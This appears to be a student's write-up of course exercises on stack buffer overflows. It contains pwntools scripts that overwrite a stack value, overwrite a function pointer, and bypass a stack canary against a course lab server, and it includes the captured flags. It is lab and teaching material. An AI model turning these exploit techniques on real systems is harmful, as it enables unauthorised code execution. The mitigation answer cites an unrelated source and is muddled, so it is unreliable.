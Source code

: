 ## Exercise 00:

The vulnerability found in this exercise is buffer overflow where when overflowing we can change a value in the stack.

### Source code:

```Python
from pwn import *

context.log_level = 'debug'

io = remote('inf226.puffling.no', 7000)

# Since the buffer at 00.c is 16 we fill this buffer
overFlow = bytes(4*'aaaa', 'utf-8')

payLoad = p64(0x79beef8b)

print(io.recvline())

print(overFlow + payLoad)

# Now since we are able to write up 
# to 512 bytes we are able to overflow the buffer
io.sendline(overFlow + payLoad)

# Recive information untill there is a silence
print(io.recvuntil(':', timeout=1))
```

So in this program the buffer is at 16 bytes so if we are able to 
write more than 16 bytes (which we can) we are able to access the 
rest of the stack. And here in this program there is an if statement that
checks if the value of locals.check == 0x79beef8b. So here we want to change the
value to 0x79beef8b. So we overflow the buffer untill we are at locals and write
this value to be 0x79beef8b.

#### Flag:
```
b'INF226{s3cR3t_f1Agz}\n'
```

## Exercise 01:

In this exercise we still have the buffer overflow but instead of a value we
need to overwrite a function pointer

### Source code:

```Python
from pwn import *

context.log_level = 'debug'

io = remote('inf226.puffling.no', 7001)

# Again the buffer is at 16 bytes
overFlow = bytes(4*'aaaa', 'utf-8')

# The function pointer's memory address
payLoad = p64(0x00000000004011f6)

print(io.recvline())

print(overFlow + payLoad)
io.sendline(overFlow + payLoad)

print(io.recvuntil(':', timeout=1))
```

In this program the buffer is still at 16 and from the C program we 
can see that the program never runs the function getFlag() and thus we
are never able to get to the flag just by running the program. So in this
exercise we need to locate the memory address to getFlag() and overflow
the buffer to run this function instead of the ordinary program. 
So using the command:
```
objdump -d 01 | grep getFlag
```
I got the memory address for the function getFlag() and used this as the payload
for my buffer overflow exploit.

#### Flag:
```
b'INF226{2b_0r_!2b}\n'
```

## Exercise 02:

In this exercise, again, we have the buffer overflow exploit, but in this instance
we have a canary that stands between the buffer and where the payload needs to be.

### Source code:

```Python
from pwn import *

context.log_level = 'debug'

io = remote('inf226.puffling.no', 7002)

# Again the buffer is at 16 bytes
buffer = 16
padding = 8
canary_distance = b'24'

io.recvline()
io.sendline(canary_distance)

canary = io.recvline().decode()
canary = int(canary, 16)
payload = p64(0x401236)

io.sendline(b'a' * (buffer+padding) + p64(canary) + b'a' * padding + payload)

print(io.recvuntil(':', timeout=1))
```

In this exercise we have the same problem as the last exercise, 
but now there is a canary between the buffer and the payload destination.
So we first find the canary which is 8 bytes after the buffer, which we can 
see at objdump and gdb. We can see it from gdb because, since the canary is 
set to a random value each time we run the program. And now since we know that the
canary is 8 bytes after the buffer(16) we input "24" when asked what does the canary say.
Then we will get the canary in the next io.recvline(). Then we can use this value to
buffer overflow past the canary and set the canary's value back to itself while sneaking a payload past the canary.

#### Flag:
```
b'INF226{s3r1nu5_cAnar1a}\n'
```

##### What sort of mitigation technique is in use here? How could you prevent this attack?
> The idea behind using a canary is that an attacker attempting to mount a stack-smashing attack will have to 
overwrite the canary to overwrite the control flow information. By choosing a random value for the canary, the attacker 
cannot know what it is and thus cannot include it in the data used to “smash” the stack.
[Source](https://economictimes.indiatimes.com/definition/mitigation)

The sort of mitigation technique in use in this program is a canary, this is to detect if there 
is a buffer overflow exploit happening.
Now to prevent this attack from happening the program probably just should print out the
value of the program.

## Exercise 03:

In this exercise you do something relatable to the exercise 02, but in this instance you don't know exactly where the canary is so you need to loop through the whole memory line between 0x7ffffffff000–0x7fffffffb000.
